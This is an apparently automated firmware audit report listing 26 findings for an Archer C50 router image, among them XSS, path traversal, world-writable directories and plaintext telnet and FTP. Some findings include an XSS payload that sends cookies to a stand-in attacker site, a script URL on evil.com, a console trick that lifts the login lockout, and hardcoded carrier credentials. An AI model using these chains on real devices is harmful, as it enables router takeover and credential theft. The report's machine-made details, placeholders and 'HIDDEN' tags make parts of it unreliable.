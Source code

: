 # Archer_C50 (26 alerts)

---

### attack_chain-XSS-CredentialTheft

- **File/Directory Path:** `web/frame/login.htm`
- **Location:** `HIDDEN：js/lib.js → frame/login.htm`
- **Risk Score:** 9.5
- **Confidence:** 8.5
- **Description:** Full attack chain: Inject XSS scripts via the path parameter of $.loadMain (lib.js vulnerability), steal Base64-encoded credentials from the Authorization cookie (login.htm vulnerability), and achieve full administrator privilege takeover. Trigger steps: 1) Lure users to visit a maliciously crafted URL to trigger the $.err/$.errBack call chain 2) Malicious scripts read the Authorization field via document.cookie 3) Decode Base64 to obtain plaintext credentials 4) Directly log in to the device. Actual impact: Complete device control can be obtained without REDACTED_PASSWORD_PLACEHOLDER brute-forcing, with a success probability >85% (dependent on user clicking the malicious link).
- **Code Snippet:**
  ```
  // XSSHIDDEN（lib.js）
  $.loadPage('main', '<script>fetch(attacker_site?c='+document.cookie)</script>', ...);
  
  // HIDDEN（login.htm）
  document.cookie = "Authorization=Basic " + btoa('REDACTED_PASSWORD_PLACEHOLDER:REDACTED_PASSWORD_PLACEHOLDER');
  ```
- **Keywords:** loadMain, path, innerHTML, Authorization, Base64Encoding, document.cookie
- **Notes:** Associated vulnerabilities: network_input-libjs_dom_xss and network_input-login-REDACTED_SECRET_KEY_PLACEHOLDER. Verification required to determine if the backend's path parameter filtering mechanism can be bypassed.

---
### network_input-libjs_path_traversal-420

- **File/Directory Path:** `web/js/lib.js`
- **Location:** `lib.js:420`
- **Risk Score:** 9.5
- **Confidence:** 8.5
- **Description:** High-risk Path Traversal Vulnerability: The cgi function dynamically constructs file paths by directly concatenating `$.curPage` (a user-controlled URL fragment). Trigger Condition: A user accesses a maliciously crafted URL (e.g., `http://target/#__../..REDACTED_PASSWORD_PLACEHOLDER.htm`). Exploitation Method: An attacker pollutes the `$.curPage` parameter, causing the `path` variable to concatenate into a sensitive file path (e.g., `/web/../..REDACTED_PASSWORD_PLACEHOLDER.cgi`), enabling arbitrary file reading via the `$.io` function. Boundary Check: Only replaces the `.htm` suffix with `.cgi`, with no path normalization or filtering.
- **Code Snippet:**
  ```
  path = (path ? path : $.curPage.replace(/\.htm$/, '.cgi')) + (arg ? '?' + $.toStr(arg, '=', '&') : '');
  ```
- **Keywords:** cgi, $.curPage, path, $.io, .htm, .cgi
- **Notes:** Form a complete utilization chain: URL fragment → $.curPage → path → file reading. Need to verify whether the $.io function is restricted by CORS. Related knowledge base: 1) The 'menu.cgi' file may accept unfiltered parameters 2) 'Associated vulnerability chain: xss-banner_dynamic_content-1'

---
### attack_chain-file_pollution_to_rce

- **File/Directory Path:** `usr/bin/cos`
- **Location:** `usr/bin/cos:0x409bfc [strcpy]`
- **Risk Score:** 9.5
- **Confidence:** 8.25
- **Description:** High-risk attack chain: File contamination leading to command injection and buffer overflow. Specific manifestations: 1) The globally writable file '/var/tmp/umount_failed_list' content is contaminated; 2) fcn.REDACTED_PASSWORD_PLACEHOLDER reads the file without validating content; 3) Contaminated data triggers stack overflow via strcpy copy (0x409bfc); 4) Same data executes arbitrary shell commands in rm -rf command at fcn.004099f4. Trigger condition: Attacker writes ≥320 bytes of malicious content to target file. Security impact: Full device control (risk level 9.5).
- **Code Snippet:**
  ```
  // HIDDEN
  0x00409bfc  jalr t9 ; sym.imp.strcpy  // HIDDEN
  (**(gp-0x7f58))(buf,"rm -rf %s%s","/var/usbdisk/",param) // HIDDEN
  ```
- **Keywords:** /var/tmp/umount_failed_list, fcn.REDACTED_PASSWORD_PLACEHOLDER, fcn.00409bdc, strcpy, s2, s0, fcn.004099f4, rm -rf, system
- **Notes:** Exploitation Constraints: 1) Bypass ASLR to achieve overflow exploitation 2) Command injection must avoid path truncation. Subsequent dynamic verification of overflow feasibility and inspection of HTTP file upload interfaces are recommended.

---
### config-dir_permission-rcS

- **File/Directory Path:** `etc/init.d/rcS`
- **Location:** `rcS:18,24`
- **Risk Score:** 9.0
- **Confidence:** 10.0
- **Description:** The script creates globally writable directories (0777), including /var/samba/private (line 24) and /var/tmp/dropbear (line 18). Trigger condition: Automatically executed during system startup. Security impact: Attackers can tamper with dropbear keys or samba configuration files (e.g., injecting malicious smb.conf), achieving privilege escalation or information theft when related services start. Exploitation chain: Control directory → inject malicious configuration/keys → service loading → system compromise.
- **Keywords:** /bin/mkdir, -m 0777, /var/samba/private, /var/tmp/dropbear
- **Notes:** Verify whether dropbear/samba uses these directories

---
### hardcoded_credentials-3g_js-apn_config

- **File/Directory Path:** `web/js/3g.js`
- **Location:** `web/js/3g.js (HIDDEN)`
- **Risk Score:** 9.0
- **Confidence:** 10.0
- **Description:** The static storage of the file contains 200+ APN configurations for 3G carriers, including plaintext credentials (e.g., Argentina's Claro with REDACTED_PASSWORD_PLACEHOLDER: 'clarogprs' / REDACTED_PASSWORD_PLACEHOLDER: 'clarogprs999'). Attackers can directly steal these credentials by downloading the JS file without requiring any specific trigger conditions. The credentials are neither encrypted nor access-controlled and may be exploited for: 1) unauthorized access to carrier networks, 2) man-in-the-middle attacks, or 3) device cloning attacks. The impact spans major global carriers, with a high likelihood of exploitation.
- **Code Snippet:**
  ```
  isp0: { isp_name: 'claro', REDACTED_PASSWORD_PLACEHOLDER: 'clarogprs', REDACTED_PASSWORD_PLACEHOLDER: 'clarogprs999' }
  ```
- **Keywords:** REDACTED_PASSWORD_PLACEHOLDER, REDACTED_PASSWORD_PLACEHOLDER, apn, dial_num, isp_name, w3gisp_js
- **Notes:** Review all entries containing credentials and implement encrypted storage. This file does not interact with other components and constitutes an independent risk point.

---
### cmd-telnetd-unencrypted

- **File/Directory Path:** `etc/init.d/rcS`
- **Location:** `rcS:38`
- **Risk Score:** 9.0
- **Confidence:** 9.0
- **Description:** Start unencrypted telnetd service: The script directly executes the 'telnetd' command without any encryption parameters or access controls. This service listens on port 23/TCP, transmitting credentials in plaintext. Attackers can perform man-in-the-middle attacks to steal credentials or exploit vulnerabilities (such as buffer overflows) in the telnetd binary to directly gain control of the device. Trigger condition: The device is network-accessible with port 23 open after startup. Constraint: The service runs continuously without timeout restrictions. Potential impact: Complete device compromise.
- **Code Snippet:**
  ```
  telnetd
  ```
- **Keywords:** telnetd
- **Notes:** Analyze whether vulnerabilities exist in /bin/telnetd to form a complete attack chain

---
### network_input-libjs_dom_xss-187

- **File/Directory Path:** `web/js/lib.js`
- **Location:** `lib.js:187,203`
- **Risk Score:** 9.0
- **Confidence:** 8.75
- **Description:** High-risk DOM-based XSS vulnerability: The html() function directly sets elem.innerHTML (line 187), and the dhtml() function dynamically executes scripts (line 203). Trigger conditions: Attacker controls the value parameter (html function) or str parameter (dhtml function). Exploitation method: Inject malicious HTML/JS code. Constraints: The dhtml function only executes scripts when the input contains <script> tags. Security impact: Full control over page DOM, enabling cookie theft (including Authorization) or malicious request initiation.
- **Code Snippet:**
  ```
  elem.innerHTML = value;
  $.each(scripts, function() {$.script(this.text || this.textContent || this.innerHTML || '')});
  ```
- **Keywords:** innerHTML, html, dhtml, elem, value, $.script, document.cookie
- **Notes:** Combining with the document.cookie operation (line 331), authentication tokens can be stolen. It is necessary to trace the source of the value/str parameters. Related knowledge base: 'Combined with XSS vulnerabilities, a complete attack chain can be formed: XSS execution → cookie theft → obtaining administrator privileges.'

---
### network_input-libjs_dom_xss

- **File/Directory Path:** `web/mainFrame.htm`
- **Location:** `js/lib.js: loadMainHIDDEN`
- **Risk Score:** 9.0
- **Confidence:** 8.25
- **Description:** High-risk DOM-based XSS vulnerability: When an attacker controls the `path` parameter of `$.loadMain` with an HTML string (e.g., `'<script>alert(1)</script>'`), arbitrary scripts can be executed by directly inserting it into the DOM via `innerHTML`. Trigger conditions: 1) Injecting a malicious `path` value through prototype pollution or error handling 2) Triggering the `$.err`/`$.errBack` call chain (e.g., inducing HTTP errors or CGI failures). Actual impact: Combined with the authentication REDACTED_PASSWORD_PLACEHOLDER vulnerability in `login.htm`, it can steal administrator credentials to achieve full device control.
- **Code Snippet:**
  ```
  if (!path) path = $.curPage;
  var bFile = (path.indexOf("<") < 0);
  ...
  $.loadPage("main", path, function(){...})
  ```
- **Keywords:** loadMain, path, innerHTML, $.dhtml, $.err, $.errBack, bFile
- **Notes:** It is necessary to verify how external input reaches the path parameter in conjunction with the backend error generation mechanism. Associated vulnerability chain: can trigger authentication REDACTED_PASSWORD_PLACEHOLDER theft in login.htm.

---
### account-REDACTED_PASSWORD_PLACEHOLDER-REDACTED_PASSWORD_PLACEHOLDER-privilege

- **File/Directory Path:** `etc/REDACTED_PASSWORD_PLACEHOLDER.bak`
- **Location:** `REDACTED_PASSWORD_PLACEHOLDER.bak:1`
- **Risk Score:** 9.0
- **Confidence:** 8.0
- **Description:** The REDACTED_PASSWORD_PLACEHOLDER account possesses REDACTED_PASSWORD_PLACEHOLDER privileges (UID=0/GID=0) and utilizes the full /bin/sh shell. Trigger condition: An attacker gains access to the REDACTED_PASSWORD_PLACEHOLDER account through brute-force attacks or REDACTED_PASSWORD_PLACEHOLDER leakage. Exploitation method: Directly obtaining a REDACTED_PASSWORD_PLACEHOLDER shell to achieve complete system control. Boundary check: No additional protection mechanisms exist; passwords use MD5 hashing without a lockout policy.
- **Code Snippet:**
  ```
  REDACTED_PASSWORD_PLACEHOLDER:$1$$iC.REDACTED_SECRET_KEY_PLACEHOLDER/:0:0:REDACTED_PASSWORD_PLACEHOLDER:/:/bin/sh
  ```
- **Keywords:** REDACTED_PASSWORD_PLACEHOLDER, UID=0, GID=0, /bin/sh, $1$$iC.REDACTED_SECRET_KEY_PLACEHOLDER/
- **Notes:** Verify the actual REDACTED_PASSWORD_PLACEHOLDER strength in REDACTED_PASSWORD_PLACEHOLDER

---
### configuration_reset-iptables_flush

- **File/Directory Path:** `etc/iptables-stop`
- **Location:** `etc/iptables-stop:4-16`
- **Risk Score:** 9.0
- **Confidence:** 7.0
- **Description:** command_execution  

The script performs a high-risk firewall cleanup operation: flushing all rule chains (-F/-X) and setting the default policy to ACCEPT (lines 4-16). If triggered by an attacker (e.g., via unauthorized service invocation), it will completely disable the firewall. Trigger condition: the attacker gains script execution privileges. Impact: complete removal of network protection, exposing all ports and services.
- **Code Snippet:**
  ```
  iptables -P INPUT ACCEPT
  iptables -P FORWARD ACCEPT
  iptables -P OUTPUT ACCEPT
  ```
- **Keywords:** iptables -F, iptables -X, iptables -P ACCEPT
- **Notes:** Correlate with the system service invocation chain analysis (e.g., /etc/init.d) to verify whether there exists a web interface or IPC mechanism capable of triggering this script.

---
### configuration_load-login_hardcoded_admin

- **File/Directory Path:** `web/mainFrame.htm`
- **Location:** `frame/login.htm`
- **Risk Score:** 8.5
- **Confidence:** 8.75
- **Description:** Hardcoded credentials and privilege markers: login.htm forcibly sets the REDACTED_PASSWORD_PLACEHOLDER REDACTED_PASSWORD_PLACEHOLDER (REDACTED_PASSWORD_PLACEHOLDER.value="REDACTED_PASSWORD_PLACEHOLDER") and flags the REDACTED_PASSWORD_REDACTED_SECRET_KEY_PLACEHOLDER privilege. Attackers only need to crack the REDACTED_PASSWORD_PLACEHOLDER to gain administrator access. The client-side locking mechanism (lockWeb) has design flaws: authentication failure locks can be bypassed by modifying JS variables (e.g., resetting the lockTime variable). Trigger condition: After multiple failed login attempts trigger a lock, execute lockTime=0 in the browser console to unlock.
- **Code Snippet:**
  ```
  if (REDACTED_PASSWORD_REDACTED_SECRET_KEY_PLACEHOLDER) {
    REDACTED_PASSWORD_PLACEHOLDER.value = "REDACTED_PASSWORD_PLACEHOLDER";
    REDACTED_PASSWORD_PLACEHOLDER.focus();
  }
  ```
- **Keywords:** REDACTED_PASSWORD_PLACEHOLDER.value, REDACTED_PASSWORD_REDACTED_SECRET_KEY_PLACEHOLDER, lockWeb, lockTime, REDACTED_SECRET_KEY_PLACEHOLDER, REDACTED_PASSWORD_PLACEHOLDER
- **Notes:** Verify whether REDACTED_PASSWORD_REDACTED_SECRET_KEY_PLACEHOLDER is controlled by the backend to form a privilege escalation chain. Associated vulnerability chain: Directly obtaining administrator privileges after being exploited by an XSS vulnerability.

---
### network_input-ushare-protocol_vulnerability

- **File/Directory Path:** `etc/ushare.conf`
- **Location:** `etc/ushare.conf:27-30`
- **Risk Score:** 8.5
- **Confidence:** 7.75
- **Description:** USHARE_ENABLE_XBOX=yes and USHARE_ENABLE_DLNA=yes enable extended protocol support. Historical vulnerabilities indicate that DLNA protocol parsing often contains buffer overflow issues (e.g., CVE-2017-10617). Trigger condition: An attacker sends malformed media files or malicious protocol packets. Potential impact: May bypass memory protection mechanisms to achieve remote code execution, forming a complete attack chain.
- **Code Snippet:**
  ```
  USHARE_ENABLE_XBOX=yes
  USHARE_ENABLE_DLNA=yes
  ```
- **Keywords:** USHARE_ENABLE_XBOX, USHARE_ENABLE_DLNA
- **Notes:** It is recommended to conduct an in-depth protocol analysis of the uShare binary.

---
### verification-js_lib_implementation

- **File/Directory Path:** `web/frame/banner.htm`
- **Location:** `web/js/lib.js (HIDDEN)`
- **Risk Score:** 8.5
- **Confidence:** 4.0
- **Description:** Urgent verification required for the implementation of lib.js functions: 1) Confirm whether $.h is equivalent to innerHTML 2) Check the parameter passing path of $.desc/$.model. If verified, this forms a complete attack chain with the banner.htm vulnerability: attacker crafts malicious network input → MenuRpm.htm loads contaminated resources → banner.htm executes XSS → steals REDACTED_PASSWORD_PLACEHOLDER cookies → triggers loadMenu privilege escalation.
- **Code Snippet:**
  ```
  N/A (HIDDEN)
  ```
- **Keywords:** lib.js, $.h, innerHTML, $.loadMenu, dynamic_content
- **Notes:** Associated vulnerability chain: 1) xss-banner_dynamic_content-1 2) web-framework-dynamic-resource-loading. REDACTED_PASSWORD_PLACEHOLDER constraint: Directory access restrictions hinder analysis; priority should be given to lifting these restrictions or obtaining lib.js through alternative means.

---
### network_input-login-REDACTED_SECRET_KEY_PLACEHOLDER

- **File/Directory Path:** `web/frame/login.htm`
- **Location:** `login.htm (JavaScriptHIDDEN)`
- **Risk Score:** 8.0
- **Confidence:** 9.25
- **Description:** Authentication Mechanism Vulnerability: The login function is handled by the PCSubWin() function, which stores the Base64-encoded REDACTED_PASSWORD_PLACEHOLDER and REDACTED_PASSWORD_PLACEHOLDER in the Authorization cookie. Trigger Condition: When a user submits a login request. Manifestations: 1) No input filtering or validation, allowing attackers to inject malicious characters. 2) Base64 encoding is equivalent to storing credentials in plaintext. 3) Page refresh mechanisms may bypass certain security controls. Security Impact: Attackers can perform XSS attacks, REDACTED_PASSWORD_PLACEHOLDER theft, or authentication bypass (if backend validation is flawed). Exploitation Method: Craft malicious REDACTED_PASSWORD_REDACTED_PASSWORD_PLACEHOLDER_PASSWORD_PLACEHOLDER parameters to attempt injection or cookie theft.
- **Code Snippet:**
  ```
  auth = "Basic "+Base64Encoding(REDACTED_PASSWORD_PLACEHOLDER+":"+REDACTED_PASSWORD_PLACEHOLDER);
  document.cookie = "Authorization=" + auth;
  window.location.reload();
  ```
- **Keywords:** PCSubWin, REDACTED_PASSWORD_PLACEHOLDER, REDACTED_PASSWORD_PLACEHOLDER, Base64Encoding, Authorization
- **Notes:** Verify the backend's handling logic for the Authorization cookie

---
### network_input-ushare-interface_exposure

- **File/Directory Path:** `etc/ushare.conf`
- **Location:** `etc/ushare.conf:7`
- **Risk Score:** 8.0
- **Confidence:** 8.75
- **Description:** USHARE_IFACE=br0 binds the service to the bridge interface. If br0 is exposed to an untrusted network (e.g., WAN), attackers can directly connect to the service. The lack of access control mechanisms (e.g., missing USHARE_ACL parameter) allows any device on the same network to access the service without authentication. Trigger condition: The attacker is within the same broadcast domain or has routing access to the br0 interface. Potential impact: Provides an initial attack entry point, enabling malicious requests to trigger protocol vulnerabilities.
- **Code Snippet:**
  ```
  USHARE_IFACE=br0
  ```
- **Keywords:** USHARE_IFACE, br0
- **Notes:** It is necessary to verify the exposure scope of br0 in conjunction with the network topology, and it is recommended to subsequently scan for open ports.

---
### network_input-login_cookie_token

- **File/Directory Path:** `web/mainFrame.htm`
- **Location:** `frame/login.htm`
- **Risk Score:** 8.0
- **Confidence:** 8.75
- **Description:** REDACTED_PASSWORD_PLACEHOLDER Storage Vulnerability: Upon successful login, plaintext credentials (Authorization=Basic base64(user:pass)) are stored via document.cookie in Base64 encoding without HttpOnly/Secure attributes. Trigger conditions: 1) Successfully luring users to visit malicious pages 2) Executing document.cookie read operations via XSS vulnerabilities. Actual impact: Stolen tokens grant permanent administrator privileges, with Base64 decoding directly exposing plaintext passwords.
- **Code Snippet:**
  ```
  auth = "Basic "+Base64Encoding(REDACTED_PASSWORD_PLACEHOLDER+":"+REDACTED_PASSWORD_PLACEHOLDER);
  document.cookie = "Authorization=" + auth;
  ```
- **Keywords:** document.cookie, Authorization, Base64Encoding, REDACTED_PASSWORD_PLACEHOLDER, REDACTED_PASSWORD_PLACEHOLDER
- **Notes:** Combining with XSS vulnerabilities can form a complete attack chain: XSS execution → cookie theft → administrator privilege escalation. Related to the loadMain vulnerability in lib.js.

---
### ftp-ssl-disabled

- **File/Directory Path:** `etc/vsftpd.conf`
- **Location:** `etc/vsftpd.conf:0 (global config)`
- **Risk Score:** 8.0
- **Confidence:** 8.25
- **Description:** The FTP service does not have SSL/TLS encryption enabled (ssl_enable=NO and no certificate files configured), resulting in authentication credentials and file contents being transmitted in plaintext. Attackers can intercept valid credentials through man-in-the-middle attacks such as ARP spoofing, then log in to the system and exploit write permissions (write_enable=YES) to upload malicious files or tamper with critical system files. Trigger conditions: 1) FTP service port is exposed 2) The attacker is within the same broadcast domain 3) Valid user accounts exist. Boundary check: chroot_local_user=YES restricts user access scope but cannot defend against network-layer eavesdropping. Actual impact: Attackers can gain system control, with success probability depending on network exposure level and user REDACTED_PASSWORD_PLACEHOLDER strength.
- **Code Snippet:**
  ```
  ssl_enable=NO
  rsa_cert_file=
  rsa_private_key_file=
  write_enable=YES
  local_enable=YES
  ```
- **Keywords:** ssl_enable, rsa_cert_file, rsa_private_key_file, write_enable, local_enable
- **Notes:** Subsequent verification is required for the actual open ports of the FTP service and the network boundary protection status.

---
### command_execution-iptables_path_pollution

- **File/Directory Path:** `etc/iptables-stop`
- **Location:** `etc/iptables-stop:4`
- **Risk Score:** 8.0
- **Confidence:** 7.5
- **Description:** The script uses relative paths to invoke the iptables command (e.g., 'iptables -F'), without specifying absolute paths or resetting the PATH environment variable. When PATH is compromised (e.g., containing writable directories like /tmp), an attacker can place a malicious iptables program to achieve command injection. Trigger conditions: 1) Attacker controls the PATH variable, 2) Malicious program is placed in a PATH directory, 3) The script is executed. Impact: Gains REDACTED_PASSWORD_PLACEHOLDER privileges (since iptables typically requires REDACTED_PASSWORD_PLACEHOLDER permissions to execute).
- **Code Snippet:**
  ```
  iptables -t filter -F
  ```
- **Keywords:** iptables, PATH
- **Notes:** It is necessary to analyze whether the parent process calling this script (such as the init script) has securely configured the PATH environment variable. Common scenarios in firmware where service restarts are triggered through web interfaces may be exploited.

---
### network_input-libjs_ssrf-488

- **File/Directory Path:** `web/js/lib.js`
- **Location:** `lib.js:488`
- **Risk Score:** 8.0
- **Confidence:** 7.25
- **Description:** SSRF/Path Traversal Risk: The load function directly passes the value of $.curPage to the $.io function (line 488). Trigger Condition: Control $.curPage with a value that does not contain the '<' character. Exploitation Method: Set $.curPage to an external URL (http://attacker.com) or a local sensitive path. Security Impact: Can access internal services or read system files, but limited by the implementation of $.io. Boundary Check: Only checks if the content contains HTML tags, with no URL protocol filtering.
- **Code Snippet:**
  ```
  if (html.indexOf('<') < 0) { $.io(html, false, function(ret) {...}
  ```
- **Keywords:** $.load, $.io, html, $.curPage
- **Notes:** Shares the same path traversal vulnerability pollution source with $.curPage, requires verification of whether $.io supports the HTTP protocol. Related knowledge base: 'Needs to check if the implementation files of REDACTED_PASSWORD_PLACEHOLDER are secure'.

---
### network_input-menu-logout_endpoint

- **File/Directory Path:** `web/frame/menu.htm`
- **Location:** `menu.htm:132-143`
- **Risk Score:** 7.5
- **Confidence:** 8.75
- **Description:** Exposed authentication logout endpoint /cgi/logout: Directly invoked via the logoutClick() function without any authentication state verification or CSRF protection. Attackers can forcibly trigger this function through malicious pages or XSS, leading to unexpected termination of user sessions (session fixation attack). Trigger condition is simple: only requires luring users to visit pages containing malicious scripts.
- **Code Snippet:**
  ```
  function logoutClick(){
    $.act(ACT_CGI, "/cgi/logout");
    $.exe();
  }
  ```
- **Keywords:** logoutClick, /cgi/logout, ACT_CGI, $.act, $.exe
- **Notes:** The actual impact needs to be verified in conjunction with the implementation of /cgi/logout. It is recommended to check whether there are associated CSRF protection mechanisms. Core user requirement relevance: This is a network input point exposed by the HTTP endpoint, which may constitute the starting point of a session fixation attack chain.

---
### network_input-login-BruteForceLock

- **File/Directory Path:** `web/frame/login.htm`
- **Location:** `unknown`
- **Risk Score:** 7.5
- **Confidence:** 8.25
- **Description:** Brute-force vulnerability: Account locked for 7200 seconds after 10 consecutive failed login attempts. Trigger condition: 10 consecutive authentication failures. Manifestations: 1) Fixed threshold allows attackers 10 brute-force attempts 2) Lockout duration is fixed without randomization 3) No IP restriction or CAPTCHA implementation. Security impact: Attackers can automate attempts using common REDACTED_PASSWORD_PLACEHOLDER combinations, making weak-REDACTED_PASSWORD_PLACEHOLDER accounts vulnerable. Exploitation method: Launch REDACTED_PASSWORD_PLACEHOLDER brute-force attacks against known REDACTED_PASSWORD_PLACEHOLDERs (e.g., REDACTED_PASSWORD_PLACEHOLDER).
- **Code Snippet:**
  ```
  if (authTimes >= 10) { isLocked = true; count = 7200 - forbidTime; }
  ```
- **Keywords:** authTimes, forbidTime, isLocked
- **Notes:** It is recommended to analyze the locking implementation mechanism of the backend authentication module; the location needs to be confirmed later.

---
### file-write-var-perm

- **File/Directory Path:** `etc/init.d/rcS`
- **Location:** `rcS:8-16,20-22`
- **Risk Score:** 7.5
- **Confidence:** 8.0
- **Description:** High-risk directory permission settings: Global writable directories such as /var/tmp and /var/usbdisk are created using '/bin/mkdir -m 0777'. After an attacker gains low-privilege access (e.g., through a telnetd vulnerability), they can plant malicious scripts or tamper with data in these directories to achieve privilege escalation or persistent control. Trigger condition: The attacker gains arbitrary command execution privileges. Constraint: Directories are created at startup with persistent permissions. Potential impact: Privilege escalation, data tampering, or denial of service.
- **Code Snippet:**
  ```
  /bin/mkdir -m 0777 -p /var/tmp
  /bin/mkdir -m 0777 -p /var/usbdisk
  ```
- **Keywords:** /bin/mkdir, -m 0777, /var/tmp, /var/usbdisk
- **Notes:** Check if the directories under /var are being used by critical services

---
### attack_surface-world_writable_file

- **File/Directory Path:** `usr/bin/cos`
- **Location:** `usr/bin/cos:0x409874 [fopen]`
- **Risk Score:** 7.5
- **Confidence:** 7.75
- **Description:** Auxiliary attack surface: File permission configuration flaw. The globally writable file '/var/tmp/umount_failed_list' (0666 permission) is periodically cleared by fopen('w+'), providing attackers with a stable pollution entry point. Trigger condition: Writing to the file via physical access or network service vulnerabilities. Security impact: Medium to high risk (severity level 7.5), serving as a precondition for the primary attack chain.
- **Keywords:** fcn.REDACTED_PASSWORD_PLACEHOLDER, fopen, w+, umask, /var/tmp/umount_failed_list
- **Notes:** It is necessary to analyze whether other services (such as HTTP) expose file writing interfaces. The location is inferred based on the function name fcn.REDACTED_PASSWORD_PLACEHOLDER.

---
### configuration_load-libjs_global_param-50

- **File/Directory Path:** `web/js/lib.js`
- **Location:** `lib.js:50,1269`
- **Risk Score:** 7.5
- **Confidence:** 6.75
- **Description:** Global parameter pollution risk: $.params controls the local JS loading path (lines 50, 1269). Trigger condition: Polluting $.params when local mode is enabled. Exploitation method: Set to a malicious URL (http://evil.com/script.js). Security impact: Remote code execution, but dependent on local mode activation. Trigger probability is relatively low.
- **Code Snippet:**
  ```
  params: './js/local.js'
  $.io($.params, true);
  ```
- **Keywords:** $.params, $.io, $.local
- **Notes:** Potential attack path: Network input → $.params pollution → Remote script loading. Need to verify local mode activation conditions.

---
### command-PATH_injection-rcS

- **File/Directory Path:** `etc/init.d/rcS`
- **Location:** `rcS:76,84`
- **Risk Score:** 7.0
- **Confidence:** 7.0
- **Description:** The telnetd (line 76) and cos (line 84) services were launched without using absolute paths, and the PATH environment variable was not configured. Trigger conditions: 1) The system PATH includes writable directories (e.g., /var/tmp). 2) An attacker places a malicious program with the same name in a prioritized PATH location. Security impact: Malicious programs are loaded during service startup to achieve code execution. Exploitation chain: PATH pollution → placement of malicious program → service startup → RCE.
- **Keywords:** telnetd, cos, PATH
- **Notes:** To be verified subsequently: 1) Default PATH content of the system 2) COS service functionality

---
### configuration_security-iptables_disable

- **File/Directory Path:** `etc/iptables-stop`
- **Location:** `etc/iptables-stop:1-15`
- **Risk Score:** 7.0
- **Confidence:** 6.25
- **Description:** The script clears all firewall rules (-F/-X) via the iptables command and sets the default policy of the filter/nat tables to ACCEPT, completely disabling the firewall. Trigger condition: Must be executed with REDACTED_PASSWORD_PLACEHOLDER privileges. Security impact: 1) Removes network layer protection, leaving all ports open 2) If exploited by attackers (e.g., triggered via web vulnerabilities), it can combine with intranet penetration to form a complete attack chain 3) Successful exploitation requires: the attacker has already obtained script execution privileges (through privilege escalation or service vulnerabilities).
- **Code Snippet:**
  ```
  iptables -t filter -F
  iptables -t filter -X
  iptables -P INPUT ACCEPT
  ```
- **Keywords:** iptables, -F, -X, -P ACCEPT, filter, nat, PATH
- **Notes:** Verification required: 1) File permissions (whether writable by www-data) 2) Call chain (whether invoked by web interface) 3) Interaction with nvram/env. Associated risk: Same file contains PATH pollution vulnerability (command_execution-iptables_path_pollution), which can be combined to achieve command hijacking.

---
